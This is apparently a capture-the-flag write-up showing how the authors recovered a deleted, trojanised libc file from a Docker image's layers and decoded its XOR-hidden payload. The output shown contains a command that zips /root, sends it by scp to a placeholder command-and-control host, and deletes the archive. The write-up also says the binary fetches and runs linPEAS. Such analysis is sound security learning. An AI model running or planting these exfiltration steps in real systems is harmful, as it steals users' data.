

# Unlock The City 2022 - Phase 1 - Protect the Supply
*This challenge was developed by DHaines@DeloitteNL*

## Challenge information

> After the day that the A.I went rouge everything has changed in our society even simple and micro services have changed. Our Hacky University and our Hacky Factory has changed and something looks out of place...
Can you see why we no longer feel at home in our own container?

> Run docker run -ti hackazon/micro_ghost /bin/sh to get started 

## Flag Information
> Can you identify why ever since the attack our container felt off?

The first natural idea is to run the container in order to inspect what it contains

After quite a bit of exploring the only interesting files we could find were located inside the opt folder.

```
# ls opt
ld-linux-x86-64.so.2  libc.so.evil.6
```

We tried to dissasmble the libc.so.evil.6 file using ghidra but the file didn't seem to contain anything interesting.

After a long time we decided to actually check the container we were downloading and see if we can find anything interesting there.

After searching on docker hub we found the following link:
https://hub.docker.com/r/hackazon/micro_ghost

Upon accessing the link we can look at the container layers


We can see that the file we were looking at before was actually a FAKE and that the real file was actually deleted. Thankfully we can actually retrieve the deleted file quite easily.
By reading more about how docker layers work you can pretty easily find the folder responsible for the deleted file which is:

```
/var/lib/docker/overlay2/af03a79d137753a7995edad8b5d54a7fb9be587521f0c80ff83b948bc15fa269/diff/usr/lib/x86_64-linux-gnu
```

We can then extract the file from this folder and inspect the newly found file.

The file itself seems to download linPEAS and execute it on the target machine.

What is interesting instead is that we can find a long random string present in the code that seems to be passed to a function:
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaa
```

If we look at the function we can see it does some string manipulations and it outputs the result.

We need to reconstruct the function and run the code to actually see the hidden output.

After a bit of adding types and dealing with ghidra imperfections you can get something that looks like the following code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>

char * DAT_00104018;
void FUN_00101169(char *param_1)
{
  char *__command;
  size_t sVar1;
  int local_1c;
  __command = (char *)malloc(0xa8);
  local_1c = 0;

  puts(param_1);
  while( true ) {
    sVar1 = strlen(param_1);
    if (sVar1 <= (long)local_1c) break;
    __command[local_1c] = param_1[local_1c] ^ (DAT_00104018[local_1c]);
    puts("heree");
    local_1c = local_1c + 1;
  }
  puts(__command);
  return;
}

void FUN_0010124b(void)

{
  char local_48;
  char local_47;
  char local_46;
  char local_45;
  char local_44;
  char local_43;
  char local_42;
  char local_41;
  char local_40;
  char local_3f;
  char local_3e;
  char local_3d;
  char local_3c;
  char local_3b;
  char local_3a;
  char local_39;
  char local_38;
  char local_37;
  char local_36;
  char local_35;
  char local_34;
  char local_28;
  char local_27;
  char local_26;
  char local_25;
  char local_24;
  char local_23;
  char local_22;
  char local_21;
  char local_20;
  char local_1f;
  char local_1e;
  char local_1d;
  char local_1c;
  char local_1b;
  char local_1a;
  char local_19;
  char local_18;
  char local_17;
  char local_16;
  char local_15;
  char local_14;
  char local_13;
  char *local_10;
  
  DAT_00104018 = (char *)malloc(0xa8);
  local_10 = 
  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaa"
  ;
  local_28 = 'T';
  local_48 = 'R';
  local_46 = 0x61;
  local_25 = 0x61;
  local_45 = 0x6c;
  local_24 = 0x6c;
  local_1d = 0x20;
  local_3d = 0x41;
  local_1c = 0x41;
  local_3c = 0x20;
  DAT_00104018[0x9b] = 0x40;
  DAT_00104018[0x9c] = 0x54;
  DAT_00104018[0x9d] = 4;
  DAT_00104018[0x9e] = 2;
  DAT_00104018[0x9f] = 10;
  DAT_00104018[0xa0] = 0x1f;
  DAT_00104018[0xa1] = 0x41;
  DAT_00104018[0xa2] = 0x43;
  DAT_00104018[0xa3] = 0x25;
  DAT_00104018[0xa4] = 0x36;
  DAT_00104018[0xa5] = 0x43;
  DAT_00104018[0xa6] = 0x5a;
  DAT_00104018[0xa7] = 0;
  //FUN_00101208();
  local_44 = 0x6c;
  local_41 = 0x4e;
  local_20 = 0x4e;
  local_40 = 0x6f;
  local_1f = 0x6f;
  local_3f = 0x74;
  local_1e = 0x74;
  local_3e = 0x20;
  local_27 = 0x6f;
  DAT_00104018[0x4d] = 0;
  DAT_00104018[0x4e] = 0xd;
  DAT_00104018[0x4f] = 5;
  DAT_00104018[0x50] = 0x1a;
  DAT_00104018[0x51] = 0xc;
  DAT_00104018[0x52] = 0;
  DAT_00104018[0x53] = 8;
  DAT_00104018[0x54] = 0x18;
  DAT_00104018[0x55] = 0x4f;
  DAT_00104018[0x56] = 5;
  DAT_00104018[0x57] = 4;
  DAT_00104018[0x58] = 0x1b;
  DAT_00104018[0x59] = 0x5b;
  DAT_00104018[0x5a] = 0x4e;
  DAT_00104018[0x5b] = 0x18;
  DAT_00104018[0x5c] = 0x1d;
  DAT_00104018[0x5d] = 4;
  DAT_00104018[0x5e] = 0x15;
  DAT_00104018[0x5f] = 0x3e;
  DAT_00104018[0x60] = 0x1d;
  DAT_00104018[0x61] = 0;
  DAT_00104018[0x62] = 0x15;
  DAT_00104018[99] = 0;
  DAT_00104018[100] = 0x55;
  DAT_00104018[0x65] = 0x5a;
  DAT_00104018[0x66] = 0x17;
  DAT_00104018[0x67] = 0x50;
  DAT_00104018[0x68] = 0x5f;
  DAT_00104018[0x69] = 0x43;
  DAT_00104018[0x6a] = 0x54;
  DAT_00104018[0x6b] = 10;
  DAT_00104018[0x6c] = 0x50;
  DAT_00104018[0x6d] = 0x3e;
  DAT_00104018[0x6e] = 0x54;
  DAT_00104018[0x6f] = 0x17;
  DAT_00104018[0x70] = 0x14;
  DAT_00104018[0x71] = 0x11;
  DAT_00104018[0x72] = 0x2d;
  DAT_00104018[0x73] = 0x1b;
  DAT_00104018[0x74] = 0x3a;
  DAT_00104018[0x75] = 0x43;
  DAT_00104018[0x76] = 0x5a;
  DAT_00104018[0x77] = 0x10;
  DAT_00104018[0x78] = 0xb;
  DAT_00104018[0x79] = 0x41;
  DAT_00104018[0x7a] = 4;
  DAT_00104018[0x7b] = 0x1a;
  DAT_00104018[0x7c] = 1;
  DAT_00104018[0x7d] = 0x4f;
  DAT_00104018[0x7e] = 0x1b;
  DAT_00104018[0x7f] = 0xb;
  DAT_00104018[0x80] = 0x18;
  DAT_00104018[0x81] = 0x5a;
  DAT_00104018[0x82] = 0x17;
  DAT_00104018[0x83] = 0x51;
  DAT_00104018[0x84] = 0x54;
  DAT_00104018[0x85] = 0x43;
  DAT_00104018[0x86] = 0x22;
  DAT_00104018[0x87] = 10;
  DAT_00104018[0x88] = 0x5e;
  DAT_00104018[0x89] = 0x50;
  DAT_00104018[0x8a] = 0xf;
  DAT_00104018[0x8b] = 0x3d;
  DAT_00104018[0x8c] = 0x5a;
  DAT_00104018[0x8d] = 0x54;
  local_47 = 0x65;
  local_26 = 0x74;
  local_23 = 0x6c;
  local_43 = 0x79;
  local_22 = 0x79;
  local_42 = 0x20;
  local_21 = 0x20;
  local_1b = 0x20;
  local_3b = 0x4d;
  DAT_00104018[0x8e] = 0x3e;
  DAT_00104018[0x8f] = 0x55;
  DAT_00104018[0x90] = 4;
  DAT_00104018[0x91] = 0x52;
  DAT_00104018[0x92] = 0x3e;
  DAT_00104018[0x93] = 0x29;
  DAT_00104018[0x94] = 0x4e;
  DAT_00104018[0x95] = 0x38;
  DAT_00104018[0x96] = 0x40;
  DAT_00104018[0x97] = 0x43;
  DAT_00104018[0x98] = 0x4f;
  DAT_00104018[0x99] = 0x40;
  DAT_00104018[0x9a] = 0x1c;
  local_1a = 0x4d;
  local_3a = 0x61;
  local_19 = 0x61;
  local_39 = 0x6c;
  local_18 = 0x6c;
  local_38 = 0x77;
  //FUN_001011f2();
  local_17 = 0x77;
  local_37 = 0x61;
  local_16 = 0x61;
  *DAT_00104018 = 4;
  DAT_00104018[1] = 2;
  DAT_00104018[2] = 9;
  DAT_00104018[3] = 0xe;
  DAT_00104018[4] = 0x42;
  DAT_00104018[5] = 0x43;
  DAT_00104018[6] = 0x2f;
  DAT_00104018[7] = 0xe;
  DAT_00104018[8] = 0x13;
  DAT_00104018[9] = 4;
  DAT_00104018[10] = 0x43;
  DAT_00104018[0xb] = 0x5a;
  DAT_00104018[0xc] = 0x12;
  DAT_00104018[0xd] = 0x50;
  DAT_00104018[0xe] = 0x5c;
  DAT_00104018[0xf] = 0x43;
  DAT_00104018[0x10] = 0x26;
  DAT_00104018[0x11] = 0x35;
  DAT_00104018[0x12] = 0x27;
  DAT_00104018[0x13] = 0x1a;
  DAT_00104018[0x14] = 0x25;
  DAT_00104018[0x15] = 0x51;
  DAT_00104018[0x16] = 0xf;
  DAT_00104018[0x17] = 0x56;
  DAT_00104018[0x18] = 0x15;
  DAT_00104018[0x19] = 0x51;
  DAT_00104018[0x1a] = 0x2d;
  DAT_00104018[0x1b] = 0xd;
  DAT_00104018[0x1c] = 0x59;
  DAT_00104018[0x1d] = 0x2f;
  DAT_00104018[0x1e] = 0x26;
  DAT_00104018[0x1f] = 0x3e;
  DAT_00104018[0x20] = 0x4b;
  DAT_00104018[0x21] = 0x5a;
  DAT_00104018[0x22] = 0x1b;
  DAT_00104018[0x23] = 8;
  DAT_00104018[0x24] = 0x1a;
  DAT_00104018[0x25] = 0x41;
  DAT_00104018[0x26] = 0x4c;
  DAT_00104018[0x27] = 0x13;
  DAT_00104018[0x28] = 0x4b;
  DAT_00104018[0x29] = 4;
  DAT_00104018[0x2a] = 0x19;
  DAT_00104018[0x2b] = 7;
  DAT_00104018[0x2c] = 0x42;
  DAT_00104018[0x2d] = 0x1b;
  DAT_00104018[0x2e] = 8;
  DAT_00104018[0x2f] = 0x11;
  DAT_00104018[0x30] = 0x4d;
  DAT_00104018[0x31] = 0x4e;
  DAT_00104018[0x32] = 0x13;
  DAT_00104018[0x33] = 0xe;
  DAT_00104018[0x34] = 1;
  DAT_00104018[0x35] = 0x15;
  DAT_00104018[0x36] = 0x4e;
  DAT_00104018[0x37] = 0x5a;
  DAT_00104018[0x38] = 0x1c;
  DAT_00104018[0x39] = 2;
  DAT_00104018[0x3a] = 0x11;
  DAT_00104018[0x3b] = 0x41;
  DAT_00104018[0x3c] = 0x15;
  DAT_00104018[0x3d] = 0x19;
  DAT_00104018[0x3e] = 7;
  DAT_00104018[0x3f] = 0x4f;
  DAT_00104018[0x40] = 0xb;
  DAT_00104018[0x41] = 8;
  DAT_00104018[0x42] = 0x11;
  DAT_00104018[0x43] = 0x41;
  DAT_00104018[0x44] = 0;
  DAT_00104018[0x45] = 0xe;
  DAT_00104018[0x46] = 0xe;
  DAT_00104018[0x47] = 0x15;
  DAT_00104018[0x48] = 0x33;
  DAT_00104018[0x49] = 2;
  DAT_00104018[0x4a] = 0x53;
  DAT_00104018[0x4b] = 0x4f;
  DAT_00104018[0x4c] = 0x19;
  local_36 = 0x72;
  local_15 = 0x72;
  local_35 = 0x65;
  local_14 = 0x65;
  local_34 = 0;
  local_13 = 0;
  //puts(&local_28);
  //puts(&local_48);
  FUN_00101169(local_10);
  return;
}

int main() {
    FUN_0010124b();
}

```

Running this code we get the following output:

```
echo "Nope";v1="CTF{C0n7r0Ll1NG_";zip -r exf.zip /root/;scp exf.zip root@c2.maldomain.del:/yeet_data/;v2="5h3_5uppLy_";rm exf.zip;v3="Ch41n_15_7h3_K#Y!!!!}";echo "GG";
```

We can easily see that the hidden flag is:
>CTF{C0n7r0Ll1NG_5h3_5uppLy_Ch41n_15_7h3_K#Y!!!!}

We have solved the challenge!
